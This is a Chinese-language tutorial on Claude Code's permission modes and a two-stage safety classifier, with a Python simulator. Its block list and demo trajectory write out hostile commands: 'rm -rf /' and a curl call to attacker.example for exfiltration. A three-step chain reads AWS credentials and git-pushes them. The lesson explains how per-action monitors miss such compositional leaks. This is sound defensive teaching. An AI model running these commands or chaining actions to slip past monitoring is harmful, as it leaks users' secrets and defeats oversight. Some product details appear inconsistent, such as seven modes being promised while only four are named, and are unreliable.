

# Claude Code 作为自主智能体：权限模式和自动模式

> Claude Code 暴露七种权限模式。"plan" 在每个动作前询问，"default" 只对风险动作询问，"acceptEdits" 自动批准文件写入但仍确认 shell 执行，"bypassPermissions" 批准一切。自动模式（2026 年 3 月 24 日）将逐动作审批替换为两阶段并行的安全分类器：单词元快速检查运行在每个动作上；被标记的动作启动思维链深度审查。动作预算通过 `max_turns` 和 `max_budget_usd` 强制执行。自动模式作为研究预览发布——Anthropic 已明确声明分类器本身不足够。

**类型：** 实现课
**语言：** Python（标准库，两阶段分类器模拟器）
**前置知识：** 阶段 15 · 01（长期智能体）、阶段 15 · 09（编码智能体全景）
**预计时间：** ~45 分钟
**所处阶段：** Tier 3
**关联课程：** 阶段 15 · 14（终止开关和金丝雀标记）— 自动模式的下一层防御

---

## 🎯 学习目标

完成本课后，你能够：

- [ ] 命名 Claude Code 的七种权限模式——从 plan 到 bypassPermissions——并解释各模式适用于什么场景
- [ ] 解释自动模式的两阶段分类器架构——阶段 1 单词元检查，阶段 2 深度审查，不自信时升级到 HITL
- [ ] 实现一个两阶段分类器——阶段 1 关键字匹配 + 重复检测，阶段 2 白名单 + 规则推理
- [ ] 理解分类器能捕获什么和可能漏过什么——尤其是语义级误行为和组合性数据泄露
- [ ] 为给定任务匹配合适的权限模式、预算上限和所需的隔离级别

---

## 1. 问题

你机器上的自主编码智能体是一个独特的安全类别。攻击面是智能体能触及的一切——文件系统、网络、凭证、剪贴板、任何浏览器标签页、任何打开的终端。Bruce Schneier 等人已公开指出：计算机使用智能体不是聊天机器人的"功能更新"，它们是一种具有新型风险画像的新型工具。

Claude Code 的权限系统是 Anthropic 的回应。不是单一的"自主/非自主"开关，有七种模式跨越一个能力阶梯：`plan` → `default` → `acceptEdits` → `acceptExec` → `autoMode` → `yolo` → `bypassPermissions`。每种模式是不同的速度与逐动作审查的权衡。

自动模式（2026 年 3 月）添加了一个两阶段分类器，将对分类器判断为安全的动作的审批移出用户的批判路径，同时保留对被标记动作的审查层。预算控制与分类器一起工作：`max_turns` 限制总迭代数，`max_budget_usd` 设置美元上限，每工具动作计数阻止单个工具的滥用。

---

## 2. 概念

### 2.1 七种权限模式

```
plan → default → acceptEdits → acceptExec → autoMode → yolo → bypassPermissions
（最安全）                                                         （最危险）
```

| 模式 | 行为 | 何时使用 | 审查开销 |
|------|------|---------|---------|
| `plan` | 智能体提议计划；用户批准整个计划；每个动作执行前审查 | 不熟悉的任务；临近生产代码；首次在仓库上使用智能体 | 高 |
| `default` | 智能体运行动作；对"风险"动作提示用户 | 大多数交互式编码会话 | 中 |
| `acceptEdits` | 文件写入自动批准；shell 和网络调用仍提示 | 跨许多文件的重构 | 中低 |
| `acceptExec` | Shell 命令在白名单内自动批准；写入自动批准 | 紧内循环，每个 shell 命令都是 `npm test` | 低 |
| `autoMode` | 两阶段安全分类器；被标记的动作升级到审查 | 在约束工作空间中的长期无人值守运行 | 低（自动） |
| `yolo` | 跳过大多数提示；仍运行工具白名单/黑名单 | 临时沙箱、CI 任务、研究脚本 | 很低 |
| `bypassPermissions` | 批准一切 | 仅在你愿意丢弃的临时容器内 | 无 |

### 2.2 自动模式架构

自动模式（2026 年 3 月 24 日）是第一个将逐动作审批委托给模型的权限模式。

**阶段 1——单词元分类器。** 在每个提议的动作上运行。廉价（单个词元）。返回"安全"或"标记"。设计为与主智能体循环并行运行，使已批准的动作不排队等待。输入是动作的工具名称和载荷；输出是一个比特。匹配已知风险模式（如 `rm -rf /`、`sudo`、`base64 -d`）的动作被标记。

**阶段 2——策略/安全审查。** 仅在被标记的动作上运行。对动作、会话当前状态和声明的任务进行集中的策略和安全评估。使用思维链推理。置信度低时升级到 HITL（人类在环）。

**预算控制：**
- `max_turns`——会话中的总迭代次数
- `max_budget_usd`——中止会话的美元上限
- 每工具动作计数限制（不超过 N 次 `WebFetch` 调用等）

### 2.3 系统能捕获什么

| 类别 | 示例 | 被哪个阶段捕获 |
|------|------|-------------|
| 直接的提示注入 | 工具输入中的 `rm -rf /` | 阶段 1（关键字）或阶段 2（规则） |
| 重复性工具循环 | 连续 5 次相同读取 | 阶段 1（重复检测） |
| 明显超出范围的操作 | 文件编辑会话中的 shell 命令 | 阶段 1 或阶段 2 |

### 2.4 系统可能漏过什么

| 漏过类型 | 说明 | 为什么难检测 |
|---------|------|------------|
| 微妙提示注入 | 不产生单一被标记动作的提示注入 | 非完全可修补——攻击与能力同构 |
| 语义级误行为 | 每个动作看起来安全，组合轨迹有害 | 分类器评判单个动作，不重新推导用户意图 |
| 通过合法渠道泄露 | 读凭证 → 写文件 → git push 到公开仓库 | 每个动作允许，组合是问题 |

### 2.5 模式选择指南

| 场景 | 推荐模式 | 理由 |
|------|---------|------|
| 不熟悉任务 | `plan` | 读计划比回滚坏运行便宜 |
| 已知重构 | `acceptEdits` | 节省大量确认点击 |
| 无人值守后台 | `autoMode` + 预算 + 测量爆炸半径 | 分类器 + 预算双重防护 |
| 临时容器 | `bypassPermissions` | 容器和凭证可丢弃 |

---

## 3. 从零实现

### 第 1 步：定义动作和分类器数据结构

```python
from dataclasses import dataclass
from enum import Enum

class Verdict(Enum):
    APPROVE = "approve"
    BLOCK = "block"
    HITL = "hitl"

@dataclass
class Action:
    tool: str      # 工具名：read / edit / shell / run
    payload: str   # 工具载荷
    note: str = "" # 可选注释

@dataclass
class ClassificationResult:
    action: Action
    stage1_flagged: bool
    stage2_verdict: str | None  # "approve" / "block" / "hitl"
    stage2_reason: str
```

### 第 2 步：实现阶段 1——单词元关键字匹配

```python
STAGE1_FLAG_KEYWORDS = (
    "rm -rf /", "curl ", "; dd ", "sudo ", "chmod 777",
    "chown ", "iptables", "kubectl delete", "drop table",
    "exec('", "base64 -d", "aws s3 rb",
)

def stage1(a: Action, history: list[Action]) -> bool:
    """返回 True 如果阶段 1 标记该动作。关键字匹配 + 重复检测。"""
    hay = f"{a.tool} {a.payload}".lower()
    # 关键字匹配——捕获显式注入形状
    if any(k.lower() in hay for k in STAGE1_FLAG_KEYWORDS):
        return True
    # 重复检测——捕获循环
    if len(history) >= 4:
        tail = history[-4:]
        if all(t.tool == a.tool and t.payload == a.payload for t in tail):
            return True
    return False
```

### 第 3 步：实现阶段 2——白名单 + 规则推理

```python
STAGE2_ALLOWED_CURL_HOSTS = ("registry.npmjs.org", "pypi.org", "github.com")

def stage2(a: Action, history: list[Action]) -> tuple[Verdict, str]:
    """深度审查：白名单检查 + 规则推理 + 轨迹上下文分析。"""
    payload = a.payload.lower()

    # 规则 1：curl 到白名单主机——阶段 1 误报，阶段 2 放行
    if "curl " in payload and any(h in payload for h in STAGE2_ALLOWED_CURL_HOSTS):
        return Verdict.APPROVE, "curl to allowlisted host"

    # 规则 2：检测泄露形状
    if "curl " in payload and ("attacker" in payload or "paste" in payload or "webhook.site" in payload):
        return Verdict.BLOCK, "exfiltration-shaped URL"

    # 规则 3：检测破坏性文件系统操作
    if "rm -rf" in payload and ("/" in payload or "$home" in payload):
        return Verdict.BLOCK, "destructive filesystem op at root"

    # 规则 4：检测重复循环（轨迹级分析）
    if len(history) >= 4:
        tail = history[-4:]
        if all(t.tool == a.tool and t.payload == a.payload for t in tail):
            return Verdict.BLOCK, "repetitive loop detected (>=5 identical calls)"

    # 规则 5：检测提权操作
    if "sudo " in payload or "chmod 777" in payload:
        return Verdict.BLOCK, "privilege escalation shape"

    # 默认：不自信 -> 升级到 HITL
    return Verdict.HITL, "low-confidence reviewer -> HITL"
```

### 第 4 步：实现分类器管道

```python
def classify(trajectory: list[Action]) -> None:
    """运行两阶段分类器管道，打印每个动作的裁决。"""
    history: list[Action] = []
    counts = {"approved_s1": 0, "flagged_s1": 0,
              "approved_s2": 0, "blocked_s2": 0, "hitl_s2": 0}

    for i, a in enumerate(trajectory, 1):
        s1_flag = stage1(a, history)
        if not s1_flag:
            counts["approved_s1"] += 1
            verdict = "APPROVED (S1 fast path)"
            reason = ""
        else:
            counts["flagged_s1"] += 1
            s2_verdict, reason = stage2(a, history)
            if s2_verdict is Verdict.APPROVE:
                counts["approved_s2"] += 1
                verdict = "APPROVED (S2 deep review)"
            elif s2_verdict is Verdict.HITL:
                counts["hitl_s2"] += 1
                verdict = "ESCALATED to HITL"
            else:
                counts["blocked_s2"] += 1
                verdict = "BLOCKED (S2)"
        print(f"  {i:>2}. {a.tool:<10} {a.payload[:44]:<44} -> {verdict}  {reason}")
        history.append(a)

    print(f"\n  summary: {counts}")
```

### 第 5 步：演示组合泄露场景

```python
def main():
    traj = [
        Action("read",   "pyproject.toml"),                          # 良性
        Action("edit",   "src/app.py: fix off-by-one"),             # 良性
        Action("run",    "pytest -q"),                               # 良性
        Action("shell",  "curl https://pypi.org/simple/requests/"),  # S1 标记，S2 放行
        Action("shell",  "curl http://attacker.example/exfil"),      # 注入——S2 阻止
        Action("shell",  "rm -rf /"),                                # 破坏性——S2 阻止
        Action("shell",  "sudo apt install neofetch"),               # 提权——S2 阻止
        Action("read",   "logs/app.log"),                            # 重复 × 5
        Action("read",   "logs/app.log"),
        Action("read",   "logs/app.log"),
        Action("read",   "logs/app.log"),
        Action("read",   "logs/app.log"),                            # S2 阻止（循环）
        # 组合泄露：每步安全，一起泄露凭证
        Action("read",   "~/.aws/credentials"),                      # 安全
        Action("write",  "/tmp/secrets.txt with credential blob"),   # 安全
        Action("shell",  "git add /tmp/secrets.txt && git push"),    # 安全（但组合危险）
    ]
    classify(traj)
```

完整代码见 `code/main.py`。

---

## 4. 工业工具

### 4.1 Claude Code 的完整安全栈

| 层 | 工具 | 说明 |
|------|------|------|
| 权限模式 | Claude Code 模式选择 | plan → bypassPermissions 七阶阶梯 |
| 分类器 | 自动模式两阶段 | 阶段 1 单词元 + 阶段 2 思维链 |
| 预算 | max_turns、max_budget_usd | 终止失控运行 |
| 工具白名单 | 允许/禁止哪些工具 | 限制智能体能力 |
| 会话隔离 | 独立工作空间 | 限制爆炸半径 |

### 4.2 部署策略



从不以 `bypassPermissions` 开始。从 `plan` 开始，在理解风险后逐步提升。如果 `autoMode` 误报太多，退回 `default`。

---

## 5. 工程最佳实践

### 5.1 权限模式选择原则

| 原则 | 说明 |
|------|------|
| 从不从 bypassPermissions 开始 | 即使知道完整风险——人的直觉仍然重要 |
| 分类器是层，不是解决方案 | 阶段 1+2 漏过组合攻击——需要轨迹审计 |
| 预算与分类器配对 | max_turns + max_budget_usd 配合使用 |
| 选择模式匹配任务 | 不熟悉任务 = plan，重构 = acceptEdits |

### 5.2 中文场景特别建议

- **中文提示词注入更隐蔽**——因为自然语言表达方式的差异，注入可能在中文下更难被关键字规则检测
- **预算上限应该考虑中文 API 定价**——中文 API 提供商的价格和速率限制不同于 OpenAI，max_budget_usd 需要相应调整
- **中文项目更大的文件数量影响爆炸半径**——大型中文项目可能包含更多文件，`acceptEdits` 的爆炸半径可能更大

### 5.3 踩坑经验

- **分类器不设预算**——分类器每步都批准，但智能体进入了无限循环。**修复：** 总是设置 max_turns 和 max_budget_usd
- **从 bypassPermissions 开始**——以为智能体"足够可靠"，结果它意外删除了文件。**修复：** 从 plan 开始，逐步提升
- **只在一个隔离环境中测试**——在沙箱中运行完美，但在生产环境中凭据暴露。**修复：** 测试环境应该模拟生产环境的安全边界

---

## 6. 常见错误

### 错误 1：在无人值守运行中用 bypassPermissions

**现象：** 智能体在 CI 中 24 小时运行。一个提示注入导致它运行了意外命令。成本超支，文件被意外修改。

**原因：** bypassPermissions 批准一切——没有审查层。

**修复：** 无人值守运行用 autoMode + 预算。临时容器用 bypassPermissions 但只有容器和凭证可丢弃。

### 错误 2：信任分类器捕获组合攻击

**现象：** 分类器在每个动作上都说安全。但三个动作的组合（读凭证→写文件→git push）泄露了凭据。

**原因：** 阶段 1 和阶段 2 都评判单个动作，不评判轨迹。

**修复：** 分类器是层，不是解决方案。需要轨迹审计（第 13 课）和终止开关（第 14 课）。

### 错误 3：不设预算上限

**现象：** 智能体进入无限循环，烧掉 $500。没有 max_turns 或 max_budget_usd，无法自动停止。

**原因：** 没有防护措施。

**修复：** 总是设置 max_turns（建议 100-500）和 max_budget_usd（根据任务复杂度）。

---

## 7. 面试考点

### Q1：Claude Code 的七种权限模式从左到右的排序是什么？（难度：⭐）

**参考答案：**
plan（每个动作前问）→ default（只问风险）→ acceptEdits（文件自动）→ acceptExec（shell 白名单）→ autoMode（两阶段分类器）→ yolo（跳过大多数）→ bypassPermissions（批准一切）。

选择取决于任务风险和频率。不熟悉任务从 plan 开始，已知重构用 acceptEdits，无人值守用 autoMode + 预算。

### Q2：自动模式的两阶段分类器的架构如何工作？每个阶段的成本和延迟特征是什么？（难度：⭐⭐）

**参考答案：**
**阶段 1：** 单词元分类器。在每个动作上并行运行。输入是工具名和载荷；输出是"安全"或"标记"。匹配已知风险模式的关键字。延迟可以忽略（单个词元）。设计为与主智能体循环并行。

**阶段 2：** 思维链深度审查。仅在被标记的动作上运行。评估动作 + 会话状态 + 任务声明。不自信时升级到 HITL。延迟较高（完整推理路径）。

预算控制（max_turns、max_budget_usd）与分类器配合。Anthropic 作为研究预览发布——分类器本身不足够。

### Q3：分类器可能漏过什么类型的攻击？为什么不是完整的解决方案？（难度：⭐⭐）

**参考答案：**
三类漏过：

（1）**微妙提示注入**——不产生单一被标记动作的提示注入。原因：非完全可修补——攻击与智能体的能力同构。

（2）**语义级误行为**——每个动作安全但组合轨迹有害。原因：分类器评判单个动作，不重新推导用户意图。

（3）**通过合法渠道泄露**——一系列允许的动作组合（读凭证→写文件→git push）。每个动作允许，组合是问题。

**结论：** 分类器是层，不是解决方案。需要与第 12-16 课中的控制配对。

### Q4：如何为无人值守长期运行配置权限模式？（难度：⭐⭐⭐）

**参考答案：**
（1）用 autoMode 而非 bypassPermissions——两阶段分类器提供基本防护。
（2）设置 max_turns（建议 200）和 max_budget_usd（建议 $5-20）。
（3）在已测量爆炸半径的工作空间内运行——无凭证、无生产挂载、无未选择退出的出站。
（4）配置每工具动作计数限制——不超过 N 次 WebFetch 调用等。
（5）轨迹审计 + 终止开关（第 14 课）——如果行为异常则终止。
（6）检查点 + 人类在环——定期 HITL 检查点确保方向正确。

---

## 🔑 关键术语

| 术语 | 人们怎么说 | 实际含义 |
|------|-----------|---------|
| 权限模式 | "智能体能做多少" | 控制逐动作审批的七种命名策略之一 |
| plan 模式 | "做任何事前问" | 智能体写计划；用户批准后执行 |
| autoMode | "自动审批" | 两阶段安全分类器；被标记动作升级到 HITL |
| bypassPermissions | "全 YOLO" | 批准一切；用于临时容器 |
| 阶段 1 分类器 | "快速检查" | 提议动作上的单词元关键字规则 |
| 阶段 2 分类器 | "深度审查" | 被标记动作上的思维链推理 |
| 动作预算 | "成本控制" | max_turns + max_budget_usd |

---

## 📚 小结

Claude Code 的七种权限模式提供了从 plan 到 bypassPermissions 的自主性阶梯。自动模式的两阶段分类器（单词元快速检查 → 深度审查）在用户的批判路径之外处理安全动作。阶段 1 捕获显式注入形状，阶段 2 捕获循环和提权。但两者都漏过组合泄露——每个动作安全但序列有害。分类器是层，不是解决方案——需要与预算、白名单、轨迹审计配对。

下一课：浏览器智能体——阅读不受信任内容并采取后果行动，攻击面完全不同。

---

## ✏️ 练习

1. **【实验】** 运行 `code/main.py`。哪个动作被阶段 1 捕获但被阶段 2 放行？哪个动作两者都捕获不到？

2. **【实现】** 扩展阶段 1 规则集以捕获 `curl $ATTACKER/exfil`。测量良性动作样本上的误报率。

3. **【思考】** 阅读 Anthropic 的 "How the agent loop works" 文档。列出智能体在 `default` 模式下默认触及的每个外部状态。在运行 `autoMode` 之前哪些需要单独门控？

4. **【设计】** 设计 24 小时无人值守运行预算：max_turns、max_budget_usd、每工具上限、白名单。论证每个数字。

5. **【思考】** 描述一个轨迹，其中每个动作都被阶段 1 和阶段 2 批准，但组合行为是错位的。（第 14 课覆盖终止开关和金丝雀标记如何处理此问题。）

---

## 🚀 产出

| 产出 | 文件 | 说明 |
|------|------|------|
| 两阶段分类器 | `code/main.py` | 阶段 1 单词元 + 阶段 2 深度审查 + 组合泄露演示 |
| 技能提示词 | `outputs/skill-permission-mode-picker.md` | 任务→权限模式匹配器 |

---

## 📖 参考资料

1. [官方文档] Anthropic. "How the Agent Loop Works". https://code.claude.com/docs/en/agent-sdk/agent-loop — 权限模式、预算、动作格式
2. [官方文档] Anthropic. "Claude Managed Agents Overview". https://platform.claude.com/docs/en/managed-agents/overview — 托管服务执行模型
3. [产品页] Anthropic. "Claude Code". https://www.anthropic.com/product/claude-code — 功能面和自动模式公告
4. [官方文档] Anthropic. "Claude's Constitution (January 2026)". https://www.anthropic.com/news/claudes-constitution — 塑造分类器判断的推理层
5. [博客] Anthropic. "Measuring Agent Autonomy in Practice". https://www.anthropic.com/research/measuring-agent-autonomy — 长期权限设计的内部视角

---

> 本课程参考了 AI Engineering From Scratch（MIT License）的课程体系，在此基础上进行了重构和原创内容的扩充。所有中文表达、中文案例、工程最佳实践、常见错误、面试考点等均为原创内容。
